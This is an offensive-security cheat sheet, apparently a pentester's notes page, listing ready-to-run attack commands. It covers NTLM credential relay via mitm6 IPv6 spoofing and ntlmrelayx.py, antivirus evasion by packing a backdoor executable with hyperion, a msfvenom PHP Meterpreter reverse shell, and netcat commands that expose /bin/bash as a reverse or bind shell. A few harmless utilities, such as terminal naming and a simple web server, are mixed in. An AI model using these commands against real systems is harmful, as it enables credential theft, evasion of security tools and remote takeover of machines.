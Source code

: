 # **Miscellaneous**

#### NTLMRelayx.py using mitm6

This will take captured credentials via IPv6 spoofing using mitm6 and relay them to a target via ntlmrelayx.py. It requires ntlmrelayx.py and mitm6 to be installed already.

- mitm6 -d <domain.local>

  - First, start mitm6 and specify the domain you’re spoofing on with ‘-d domain.name’

- ntlmrelayx.py -6 -wh 192.168.1.1 -t smb://192.168.1.2 -l ~/tmp/

  - \-6 specifies ipv6, -wh specifies where the WPAD file is hosted at (your IP usually). -t specifies the target, or destination where the credentials will be relayed. -l is to where to store the loot.

#### Name your terminal whatever you want

This small script will name your terminal whatever you pass as an argument to it. It helps organizing with multiple terminals open. Thanks Ben!

#!bin/bash

echo -ne "\\033\]0;${1}\\007"

**Tunneling:**

sshuttle is an awesome tunneling tool that does all the hard work for you. It gets rid of the need for proxy chains. What this command does is tunnels traffic through 10.0.0.1 and makes a route for all traffic destined for 10.10.10.0/24 through your sshuttle tunnel.

- `sshuttle -r root@10.0.0.1 10.10.10.0/24`

**AV Bypass:**

- wine hyperion.exe ../backdoor.exe ../backdoor_mutation.exe

  - wine and hyperion need to be installed.

**Web hosts**

- `python -m SimpleHTTPServer 80`
  - Basic HTTP Server. Will list the directory it’s started in.
- `service apache2 start`
  - Starts Apache web server. Place files in /var/www/html to be able to ‘wget’ them.

### **Php Meterpreter Shell (Remove Guard bit)**

- `msfvenom -p php/meterpreter/reverse_tcp LHOST=????????? LPORT=6000 R > phpmeterpreter.php`

### **Netcat**

- Listener: `nc -lvp <PORT>`
  - Listen verbosely on a port.
- Target:`nc -e /bin/bash listeneripaddress listenerport`
- or `ncat -v -l -p 7777 -e /bin/bash`
- Host: `cat happy.txt | ncat -v -l -p 5555` Target: `ncat localhost 5555 > happy_copy.txt`
  - Download file via ncat
